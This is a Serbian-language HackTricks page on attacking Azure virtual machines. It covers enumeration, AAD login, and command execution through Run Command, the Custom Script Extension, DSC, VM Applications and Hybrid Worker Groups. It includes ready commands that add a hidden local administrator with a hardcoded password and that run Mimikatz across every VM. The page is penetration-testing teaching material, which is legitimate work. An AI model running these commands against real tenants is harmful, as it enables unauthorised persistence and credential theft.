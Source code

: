# Az - Virtuelne mašine i mreža

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[Iz dokumenata:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuelne mašine su jedan od nekoliko tipova [resursa za računanje na zahtev, skalabilnih](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) koje Azure nudi. Obično birate virtuelnu mašinu kada vam je potrebna veća kontrola nad okruženjem za računanje nego što to nude druge opcije. Ovaj članak vam daje informacije o tome šta treba da razmotrite pre nego što kreirate virtuelnu mašinu, kako je kreirati i kako je upravljati.

## Azure Mrežne informacije

Azure mreže sadrže **različite entitete i načine za konfiguraciju.** Možete pronaći kratke **opisne**, **primere** i **enumeracione** komande različitih Azure mrežnih entiteta u:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** nudi sigurno, potpuno upravljano RDP (Remote Desktop Protocol) i SSH (Secure Shell) rešenje za pristup preko SSL-a putem Azure portala. Integrisan je unutar Azure Virtuelne Mreže, omogućavajući RDP i SSH povezivanje sa VM-ovima koristeći privatne IP adrese, izbegavajući potrebu za javnim IP adresama. Ovo ga čini sigurnijom, praktičnijom alternativom tradicionalnim metodama koje uključuju dodeljivanje javnih IP adresa i konfiguraciju NSG pravila za pristup VM-ovima. Programeri i IT osoblje mogu sigurno pristupiti VM-ovima sa Azure portala koristeći svoje web pretraživače, pojednostavljujući proces za razvojna i testna okruženja.

Da biste naveli sve Azure Bastion hostove u vašoj pretplati, možete koristiti sledeću komandu:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Enumeracija
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Izvršavanje komandi u VM-u**

### **AAD prijava u VM-u**

Moguće je omogućiti pristup korisnicima koji su autentifikovani putem AzureAD. Na primer, pokušavajući da pristupite **linux VM-u**: `ssh username@azure-corp.com@1.1.1.1` (važno je **koristiti email** sa azurecorp koji se koristi prilikom pokušaja prijave) mogli biste dobiti grešku kao: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Samo **pratite te instrukcije** idući na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i unoseći kod, koristite email i lozinku kao akreditive i moći ćete da se povežete putem SSH (ako taj korisnik ima dovoljno dozvola za to: `Virtual Machine Administrator Login` ili `Virtual Machine User Login` uloga).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Pokreni prilagođenu skriptnu ekstenziju**

Azure virtuelne mašine (VM) ekstenzije su **male aplikacije** koje pružaju konfiguraciju i automatizaciju **zadataka** nakon implementacije na **Azure VM-ovima**. Na primer, ako virtuelna mašina zahteva instalaciju softvera, antivirusnu zaštitu ili mogućnost pokretanja skripte unutar nje, možete koristiti VM ekstenziju.

Stoga, ako imate pristup za pisanje, možete izvršiti proizvoljan kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) je PowerShell alat sličan Ansible-u, koji se koristi za postavljanje hosta putem koda. DSC se integriše sa Azure-om, omogućavajući upload specifičnih konfiguracionih fajlova. Ovi fajlovi moraju da se pridržavaju stroge sintakse. Značajno je da DSC ekstenzija u Azure-u može izvršavati komande iz fajlova koji ispunjavaju određene kriterijume formatiranja, čak i ako sintaksa nije ispravna prema DSC standardima, kao što je prikazano na datoj slici.

Izvršenje ovih komandi olakšava funkcija [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) u Az PowerShell-u. Zahtevi uključuju **.PS1** fajl sa definisanom funkcijom, a fajl mora biti upakovan u **.zip** fajl. Iako sintaksa možda nije tačna za DSC, kod će se i dalje izvršiti. Međutim, ekstenzija će označiti status izvršenja kao "neuspeh," i nijedan izlaz iz komande neće biti vidljiv zbog toga što je status prepisan porukom o neuspehu.

### VM Application Definitions

VM Application Definitions omogućavaju ponovljivo postavljanje verzionisanih aplikacija na Azure VM. Ovaj resurs podržava postavljanje i ažuriranje aplikacija širom VMs. Da bi se ovo postavilo, potrebno je nekoliko koraka, uključujući komande kao što su **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** u Az PowerShell-u.

Izvršenje aplikacija ili komandi putem ove metode uključuje **"VMAppExtension,"** koja se automatski instalira kada se aplikacija primeni na VM. Ekstenzija preuzima fajl sa specificiranog URI i imenuje ga tačno kao aplikaciju, bez ekstenzije. Da bi se fajl ispravno izvršio, polje "ManageActions" u REST API pozivu mora biti konfigurisano da preimenuje fajl sa odgovarajućom ekstenzijom. Postavljanje ove metode, kada se završi, će ličiti na strukturu prikazanu na datoj slici.

Međutim, ova metoda izvršenja je relativno spora, traje oko 3-4 minuta da izvrši aplikaciju ili komandu. Fajlovi povezani sa ovim procesom se čuvaju u specifičnim direktorijumima (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` za kopiju aplikacije i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` za status izvršenja).

Obe tehnike pružaju jedinstvene načine za izvršavanje komandi i postavljanje aplikacija u Azure okruženjima, svaka sa svojim skupom zahteva, koraka i razmatranja.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) su funkcija u Azure-u koja omogućava izvršavanje Runbook-a, konfiguranih u Automation Account-u, na Azure Virtual Machine (VM) koja je deo određenog HWG-a. Ovo izvršenje se olakšava putem ekstenzije instalirane na VM-u, koja postavlja Runbook kod na VM. Značajan aspekt ovog procesa je da stvarne akreditive nisu faktor u izvršenju jer se kod izvršava sa povišenim privilegijama, specifično kao **SYSTEM** ili root, kao što je ilustrovano na datoj slici.

Ključna informacija za one koji koriste Windows 10 VMs je potreba da se specificira verzija PowerShell-a za Runbook. Trebalo bi da se postavi da se izvršava kao PowerShell verzija 5.1 umesto 7.1. Ovaj zahtev proističe iz činjenice da PowerShell 7.1 nije instaliran podrazumevano na ovim VMs, što dovodi do neuspeha u izvršenju skripte ako je verzija 7.1 specificirana.

Ova funkcija Azure-a nudi robustan metod za automatizaciju i upravljanje zadacima širom hibridnih okruženja, omogućavajući centralizovano upravljanje i izvršenje zadataka na Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
